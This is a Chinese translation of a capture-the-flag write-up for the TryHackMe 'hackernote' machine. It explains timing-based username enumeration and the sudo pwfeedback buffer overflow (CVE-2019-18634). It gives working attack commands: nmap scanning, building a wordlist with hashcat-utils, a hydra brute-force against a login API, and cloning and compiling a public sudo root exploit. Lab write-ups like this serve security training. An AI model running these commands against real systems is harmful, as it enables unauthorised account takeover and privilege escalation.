# sudo 1 . 8 . 25 p:Linux 中缓冲溢出的故事(CVE-2019–18634)

> 原文：<https://infosecwriteups.com/sudo-1-8-25p-a-tale-of-bufferoverflow-in-linux-cve-2019-18634-and-art-of-timing-attacks-in-web-bc6794407942?source=collection_archive---------2----------------------->

## web 应用程序中的计时攻击艺术

> T **LDR:** *这个博客提供了利用 tryhackme 上的 HACKERNOTE 机器的方法的技术细节，并包括该机器的演示。* ***这个 Sudo Bug 让非特权 Linux 和 macOS 用户以 Root 身份运行命令。***

在 Linux 或 macOS 系统中使用的“sudo”实用程序中发现了一个漏洞，该漏洞会让非超级用户(低权限用户)能够执行管理命令。该漏洞注册为“CVE-2019–18634”，影响 1.8.26 之前的 sudo 版本。苹果安全研究员 Joe Vennix 意识到它可以通过 sudo 配置文件中的“pwfeedback”选项来利用。“pwfeedback”为用户在控制台输入密码时提供可视的星号(*)反馈，在大多数 sudo 上游版本中默认情况下是不启用的，但某些发行版除外，包括 Linux mint 和 Elementary OS。

让我们来谈谈这个“pwdfeedback”

> P **WDFEEDBACK**

当你在 Linux 中用`sudo`运行一个命令时，终端会提示你输入密码——并且不会给你任何视觉反馈。这里有一个快速的调整，当你输入密码时，会把那些熟悉的星号(*)带回来。

默认情况下，当我们输入超级用户密码时，linux 不会在终端上显示任何内容

在手机或 windows 中输入密码时缺少这些“*”！！

我们可以通过以下步骤启用 pwdfeedback 函数再次获得这些' * '

在终端中键入以下内容

1.`sudo visudo`

2.`Defaults env_reset`

3.`Defaults env_reset,pwfeedback`

按 Ctrl+X 完成编辑，按 Y 保存更改，按 Enter 退出(如果您使用的是 Ubuntu，这些是步骤)

现在，当您以超级用户权限键入运行进程的密码时，您将获得宝贵的“*”号。



我们在 linux 中获得了强大的功能和控制力！！

但这让我想起蜘蛛侠的名言

**在 1.8.26 之前的 sudo 中，如果在/etc/sudoers 中启用 pwfeedback，用户可以在特权 Sudo 进程中触发基于堆栈的缓冲区溢出。攻击者需要向 tgetpass.c 中 getln()的 stdin 传递一个长字符串**

**现在我们来谈谈 web 应用中的计时攻击**

> **定时攻击**

计时攻击在 web 应用领域的有效性一直被低估。人们普遍认为，由于它们的利用性质以及网络抖动在诱发大量噪声方面起着重要作用的事实，它们是不实用的。然而，研究表明，在某些情况下，它们可以被证明是有效的，并产生比标准暴力攻击更好的结果。

这基本上不是攻击 web 应用程序的功能，而是使用该功能，通过注意功能的输入正确时和功能的输入错误时运行该功能的时间差来确定敏感信息。

让我们举一个例子来理解这一点…等等，为什么不举 hackernote machine 中的漏洞的例子，因为我们将在这之后攻击它

现在，当我们浏览 web 应用程序时，我们会遇到一个登录表单，需要输入用户名和密码，如下所示



首先，让我们创建一个名为“test”的用户帐户，密码也是“test”

现在在用户名，我们使用'测试'和用户名，并故意使用错误的密码，你会得到



这个错误“无效的用户名或密码”现在尝试登录任何不存在的帐户，如“随机 123”(这个帐户不存在)，并使用任何密码，如“1234”



我们再次得到同样的错误。

这一点的关键是，无论我们试图以现有用户或非现有用户的身份登录，错误都是相同的，因此攻击者无法枚举用户名(哪些帐户在应用程序上注册)，因此攻击者无法知道是否有一个“测试”帐户(因为现有和非现有用户的错误是相同的)。

计时错误来了，现在再次重复上述活动，这次观察时间以显示错误。首先使用我们示例中的现有帐户“test”登录，然后使用不存在的帐户“random123”登录。你会看到，当你输入错误的密码为'测试'的错误显示晚于不存在的帐户'随机 123 '这意味着错误需要更长的时间来的情况下存在的用户比不存在的用户。

这样做的原因是因为“测试”用户在那里，所以它存储在后端数据库中，这些数据库将注册用户的密码存储为哈希。因此，当我们尝试使用现有用户登录时，我们提供的密码首先被散列，然后与存储在数据库中的散列进行比较，如果两者都匹配(意味着密码是正确的),我们就是该用户，否则我们将得到错误。此过程需要一些时间，但是如果在登录表单中提供了一个不存在的用户，因为数据库应用程序中没有该用户的列表，则会立即显示错误。

> **黑客笔记演练**

现在是时候将我们到目前为止所学的知识付诸实践了，我们将从 tryhackme 中破解 hackernote 机器

tryhackme—[https://tryhackme.com/](https://tryhackme.com/)

如果不知道如何在 tryhackme 上查看这个房间，首先连接到 tryhackme 的 VPN

VPN-[https://tryhackme.com/room/openvpn](https://tryhackme.com/room/openvpn)

黑客注-[https://tryhackme.com/room/hackernote](https://tryhackme.com/room/hackernote)

首先部署机器



现在让我们使用 nmap 在机器上进行侦察

`nmap -sV -Pn [machine-ip]`



端口 80 是开放的，让我们浏览网站

[http://【machine-IP】](http://[machine-ip])



我们看到这个页面，让我们点击登录页面按钮

因为我已经解释了使用时间差异的用户枚举的概念，现在我们需要枚举 web 应用程序的用户。现在我们将使用包含用户名的单词列表的时间缺陷来确定单词列表上是否存在任何具有用户名的帐户

我们将使用这个单词表来枚举用户名

 [## 丹尼尔·米斯勒/塞克里斯特

### SecLists 是安全测试人员的伴侣。它是安全期间使用的多种类型列表的集合…

github.com](https://github.com/danielmiessler/SecLists/blob/master/Usernames/Names/names.txt) 

现在我们需要创建或使用一个脚本来利用这个计时缺陷

这个漏洞脚本已经在 tryhackme 的这个房间里给出了

脚本链接—[https://github.com/NinjaJc01/hackerNoteExploits](https://github.com/NinjaJc01/hackerNoteExploits)

现在这个存储库包含以下内容



现在，我们需要使用 python exploit 或 go exploit with names.txt wordlist，您可以使用其中任何一个，运行脚本后，您将获得一个有效的用户名“james”

顺便说一下，您也可以使用 Burp 套件请求计时器扩展来实现这一点

在我们得到一个有效的用户名后

让我们单击“james”的“忘记密码”来获得密码提示

好了，现在我们需要创建自定义单词表来强制输入密码。这个单词表应该包含颜色和数字(比如 white007)

为此，我们可以使用 hashcat-util 的组合器来组合单词列表

所以我们需要为颜色创建一个单词表，为数字创建另一个单词表。

 [## hashcat/hashcat-utils

### 今天就创建您的免费 GitHub 帐户，订阅这个新版本的资源库，并与 40…

github.com](https://github.com/hashcat/hashcat-utils/releases) 

现在 tryhackme 已经提供了单词表，一个单词表包含颜色名称，另一个包含数字，我们需要使用 hashcat-utils 将它们组合在一起



下载 hashcat-utils 后进入 src 目录，运行`make`命令



复制从 hashcat-utils 的 src 文件夹中的 tryhackme 下载的两个单词列表。

现在运行以下命令

`./combinator.bin color.txt number.txt > wordlist.txt`

现在你已经通过创建每一种可能的排列将两个单词列表合并成一个单词列表“wordlist.txt ”,让我们强制使用“james”的密码

因为在尝试登录时，bruteforcing 将首先检查我们的请求是如何到达 api 的。为此，我们将使用谷歌浏览器中的开发者工具。



上图向我们展示了登录请求是如何进行的。

它正在向“/api/user/login”端点发送 json 格式的数据，好的，让我们使用 hydra 强制执行此操作

现在，为了方便起见，这个端点也接受表单格式的数据，所以我们不需要发送 json 格式的数据，我们可以简单地使用应用程序表单格式

运行以下命令

`hydra -l james -P wordlist.txt [machine-ip] http-post-form '/api/user/login:username=^USER^&pass=^PASS^:F="Invalid username or password"`

耶！！！我们获得了“james”的密码“blue7 ”,现在我们将使用这些凭据登录 web 应用程序

所以在伐木之后，我们得到



所以我们得到了用户‘James’的 ssh 密码，让 SSH 进入机器

`ssh james@[machine-ip]`



现在我们得到了用户外壳

现在，我们需要将权限提升到 root 权限，以解决机器问题

因此，对于 root 用户，让我们检查一下我们可以作为 root 用户运行哪些命令

`sudo -l`



该死的。我们不在 sudoers 中，但是等一下，看看那些星号，它意味着 pwfeedback 在/etc/sudoers 中启用

我已经解释了在这种情况下缓冲区溢出的漏洞，它会给我们提供根外壳

因此，让我们利用 https://github.com/saleemrashid/的漏洞将权限提升到超级用户

`git clone` [https://github.com/saleemrashid/sudo-cve-2019-18634.git](https://github.com/saleemrashid/sudo-cve-2019-18634.git)

现在，在克隆存储库之后，进入[sudo-CVE-2019–18634](https://github.com/saleemrashid/sudo-cve-2019-18634.git)文件夹

并键入命令

`make`



现在 exploit.c 文件是编译类型

`ls`

